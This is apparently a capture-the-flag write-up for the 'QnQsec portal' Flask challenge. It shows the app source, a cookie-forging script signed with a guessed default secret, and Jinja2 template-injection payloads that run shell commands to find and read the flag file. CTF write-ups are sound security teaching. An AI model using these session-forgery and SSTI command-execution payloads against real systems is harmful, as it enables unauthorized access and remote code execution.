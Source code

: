 # QnQsec portal

## Files Provided

`app.py`:

```python
import os
import sqlite3
import secrets
import hashlib
from hashlib import md5
from datetime import datetime, timedelta, timezone

import jwt
from flask import (
    Flask, request, render_template, redirect, session,
    flash, url_for, g, abort, make_response
)

from admin_routes import admin_bp,generate_jwt


BASE_DIR = os.path.abspath(os.path.dirname(__file__))
SECRET_DIR = os.path.join(BASE_DIR, 'secret')
FLAG_PATH = os.path.join(SECRET_DIR, 'flag.txt')
FLAG_PREFIX = 'QnQsec'


def ensure_flag():
    os.makedirs(SECRET_DIR, exist_ok=True)
    if not os.path.exists(FLAG_PATH):
        with open(FLAG_PATH, 'w') as f:
            f.write(f"{FLAG_PREFIX}{{{secrets.token_hex(16)}}}")


ensure_flag()


app = Flask(__name__)
base = os.environ.get("Q_SECRET", "qnqsec-default")
app.config['SECRET_KEY'] = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
app.config['JWT_SECRET'] = hashlib.sha256(("jwtpepper:" + base).encode()).hexdigest()
app.config['JWT_EXPIRES_MIN'] = 60


app.register_blueprint(admin_bp)


DB_PATH = os.path.join(BASE_DIR, 'users.db')


def get_db():
    if 'db' not in g:
        g.db = sqlite3.connect(DB_PATH, timeout=10)
        g.db.row_factory = sqlite3.Row
    return g.db


@app.teardown_appcontext
def close_db(_exc):
    db = g.pop('db', None)
    if db is not None:
        db.close()


def init_db():
    with sqlite3.connect(DB_PATH, timeout=10) as db:
        db.execute('PRAGMA journal_mode=WAL')
        db.execute('drop table if exists users')
        db.execute('create table users(username text primary key, password text not null)')
        
        db.execute('insert into users values("flag", "401b0e20e4ccf7a8df254eac81e269a0")')
        db.commit()


if not os.path.exists(DB_PATH):
    init_db()


@app.route('/')
def index():
    return redirect(url_for('login'))


@app.route('/sign_up', methods=['GET', 'POST'])
def sign_up():
    if request.method == 'GET':
        return render_template('sign_up.html')

    username = (request.form.get('username') or '').strip()
    password = request.form.get('password') or ''
    if not username or not password:
        flash('Missing username or password', 'error')
        return render_template('sign_up.html')

    try:
        db = get_db()
        db.execute(
            'insert into users values(lower(?), ?)',
            (username, md5(password.encode()).hexdigest())
        )
        db.commit()
        flash(f'User {username} created', 'message')
        return redirect(url_for('login'))
    except sqlite3.IntegrityError:
        flash('Username is already registered', 'error')
        return render_template('sign_up.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    username = (request.form.get('username') or '').strip()
    password = request.form.get('password') or ''
    if not username or not password:
        flash('Missing username or password', 'error')
        return render_template('login.html')

    db = get_db()
    row = db.execute(
        'select username, password from users where username = lower(?) and password = ?',
        (username, md5(password.encode()).hexdigest())
    ).fetchone()

    if row:
        session['user'] = username.title()

        
        role = "admin" if username.lower() == "flag" else "user"
        token = generate_jwt(session['user'],role,app.config['JWT_EXPIRES_MIN'],app.config['JWT_SECRET'])

        resp = make_response(redirect(url_for('account')))
        resp.set_cookie("admin_jwt", token, httponly=False, samesite="Lax")
        return resp

    flash('Invalid username or password', 'error')
    return render_template('login.html')


@app.route('/logout')
def logout():
    session.pop('user', None)
    resp = make_response(redirect(url_for('login')))
    resp.delete_cookie("admin_jwt")
    return resp


@app.route('/account')
def account():
    user = session.get('user')
    if not user:
        return redirect(url_for('login'))
    if user == 'Flag':
        return render_template('account.html', user=user, is_admin=True)
    return render_template('account.html', user=user, is_admin=False)



if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=False, use_reloader=False)
```

## Approach

Firstly, a login screen is displayed.

![image](../media/qnqportal1.png)

From the source code, it's clear that we need to login as "Flag", but we only have its md5-hashed password. [John the Ripper](https://github.com/openwall/john) with `rockyou.txt` couldn't decrypt it.

Registering with some username ("user52") and password ("pass") and then logging in sets two cookies: `admin_jwt` and `session`

![image](../media/qnqportal2.png)

On [jwt.io](https://www.jwt.io/), decoding the `admin_jwt` cookie value gives a payload that contains `"sub":"hello", "role":"User"`

```python
base = os.environ.get("Q_SECRET", "qnqsec-default")
app.config['SECRET_KEY'] = hashlib.sha1(("pepper:" + base).encode()).hexdigest()
app.config['JWT_SECRET'] = hashlib.sha256(("jwtpepper:" + base).encode()).hexdigest()
```

On the same website, we can verify if a given JWT key is valid or not for the provided token. The SHA256 hash of `jwtpepper:qnqsec-default` worked! So, the value of `base` is `qnqsec-default`.

![image](../media/qnqportal3.png)

Now, we can encode a new jwt token with `"sub":"Flag", "role":"admin"`; and use Flask to create a new session token with `"user":"Flag"`

![image](../media/qnqportal4.png)

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

def generate_flask_session(payload, secret_key):
    app = Flask(__name__)
    app.secret_key = secret_key

    si = SecureCookieSessionInterface()
    serializer = si.get_signing_serializer(app)

    return serializer.dumps(payload)

if __name__ == "__main__":
    SECRETKEY = "40913aa300c33db34d976a59975adf18d90a246a" # SHA1 of 'pepper:qnqsec-default'
    payload = {"user": "Flag"}
    cookie_value = generate_flask_session(payload, SECRETKEY)
    print(cookie_value)

```

Set these cookies to the updated values and go to the `/account` endpoint.

![image](../media/qnqportal5.png)

![image](../media/qnqportal6.png)

A form is displayed which asks us to provide a *template* which it will render. This is obviously **SSTI**. Verified by rendering `{{ 7 * '7'}}`, it outputs `7777777`

Step-by-step payload to get the flag:

```text
{{ request.application.__globals__.__builtins__.__import__('os').popen('find / -name *flag*').read() }}
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /app/secret/flag.txt').read() }}
```
